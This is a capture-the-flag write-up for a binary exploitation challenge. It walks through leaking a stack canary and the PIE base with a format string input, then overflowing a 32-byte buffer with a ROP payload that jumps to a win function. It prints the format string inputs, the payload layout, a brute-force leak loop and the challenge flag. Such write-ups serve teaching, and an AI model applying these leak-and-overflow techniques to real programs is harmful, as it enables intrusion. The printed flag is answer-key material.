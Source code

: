## Overview
[Decompiled code](/static/images/cherry_pie_main.png)

We have PIE and a canary to bypass

### Vulnerabilities
- Buffer overflow on the string 's' since it's only 32 bytes long but the fgets reads 128 bytes.
- Format string vulnerability at row 14

## Phase 1 - Leak the offset, find the canary
We can bypass PIE by exploiting the format string vulnerability to leak an address, find the offset and then the base address.

The input to leak an address is : `Take this, my grandma made that %39$p %40$p %41$p %42$p %43$p %44$p`

We recognize the leaked address that we need because **it usually starts with the number '5'**, in my case i got `0x564f2f600820`.
Using gdb we can find the base and, therefore, leak the offset, that is `0x820`.

Using the same procedure vulnerability (and the same input) **we leak the canary**. In my case i found the canary at `%15$p` and the address at `%39$p`. 
The offset may be different running the binary in local and remote, in my case they was.

## Phase 2 - Attack
We know the location of the address to leak, we know the location of the canary and the offset, so let's begin.
### Set the base address
We first, again, leak the address and the canary, then we use the address to compute the base address: 
				`base_addr = leaked_addr - leaked_offset
				`exe.address = base_addr`
Now that we have set the base address to our elf, we can access freely its symbols :D
### Build the payload
We now that the 's' string (our buffer) is at `$rbp-0x50`, and the canary is as usual at `$rbp-0x8`.

We set our offset variable to `0x50-0x8`, since we have to stop just before the canary.
So the payload is going to be:
- `b'A' * offset`
- the canary
- `b'A' * 8  // this is just for aligning the stack`
- `rop.ret.address // remeber to set rop = ROP(exe) AFTER setting the base address`
- `exe.sym['win']

After we send this payload to the second `fgets` we get the flag :D
`srdnlen{W3_l0v3_Ch3rry_p1e$}`

[Code](./solve.py)

## Note
I found the canary and the address to leak by using this code:

`for i in range(1, 150):`
           ` r = remote(remote_address, port)`
            `payload = 'Take this, my grandma made that '`
            `payload += "%"+str(i)+'$p'`